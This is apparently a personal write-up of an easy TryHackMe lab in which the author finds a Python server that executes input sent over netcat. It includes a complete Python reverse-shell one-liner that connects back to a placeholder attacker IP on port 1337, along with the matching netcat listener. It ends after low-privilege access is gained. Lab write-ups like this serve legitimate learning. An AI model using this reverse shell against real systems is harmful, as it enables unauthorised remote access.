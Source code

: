 # Fun
. **Hacking**? Solving an easy challenge on tryhackme.com

![test](images/1.png)
![test](images/2.png)

**The challenge is to hack into a python server that when receiving a GET request from a client runs some of the content of that request as an input for the python interpreter running in the server.**

So the first step is to deploy the challenge machine in the tryhackme platform, we get the challenge machine ip address as 10.201.65.80, this is an ip from a private network, so we connect to the network of the tryhackme platform using the command 
`sudo openvpn Downloads/user.ovpn` after we ping the target so we can see that we have access to the target
`ping 10.201.65.80`

![test](images/3.png)

After seeing that we are in fact into the network we try to access the target server with the default server, we run nmap to scan the target with the `-sV` flag to enumerate the version of the sotware running in the ports of the server. `nmap -sV 10.201.65.80` 

![test](images/4.png)

Nmap return that the target server is running ssh in port 22 and a http server in port 8000. As in the premises of the challenge is very straight forward where to look, i'm not gonna try to bruteforce the ssh and focus in the server as the foothold point.

We see that the http server is using the simplehttp python. the command to start running this kind of server in your machine is a derivation of `python3 -m http.server PORT_TO_RUN` and the fingerprint string of the responde of the http is returning error about an object not defined in the request. When access the http service in port 8000 in a browser we receive a html file saying *Try a more basic connection!*

![test](images/5.png)

So we connect using netcat a swiss army knife to handling basic network connections, we use the command
`nc 10.201.65.80 8000` (i lost the screenshot but when you connect via netcat all you type in the terminal is run by a python interpreter, so if i typed `hello` it would return `NameError: name 'hello' is not defined.`
and when typed `print("hello")` we receive *hello* as response. **Then we can conclute that this is the remote code execution flaw of the server, we can exploit this to execute arbitrary code into the server machine**.

We use a reverse shell cheat sheet online to look an one line python code to make the server spawn a shell and connects to our machine (REVERSE SHELL) writing `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_MACHINE_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` into the netcat connection with the target as is running a get request as python code. This code will make the server connects to our machine and connect an interactive shell of the server into our machine by port 1337, so we set our machine to listen to connections in port 1337 by using `nc -lvnp 1337` (-l is listen, -v verbone, -p port and -n no dns resolution).

![text](images/6.png)

In the nc -lvnp 1337 we receive a connection from 10.201.92.41 (our target address) and a **$** which means a input for shell, when we run `id` into this shell we received in port 1337 the output is **www-data** which is the user responsible for the http server, so we are inside the target server and running code as www-date user, which is a very low priveleged user in the target system, the next step is to realize a **privilege escalation** to achieve root into the target system, owning the target
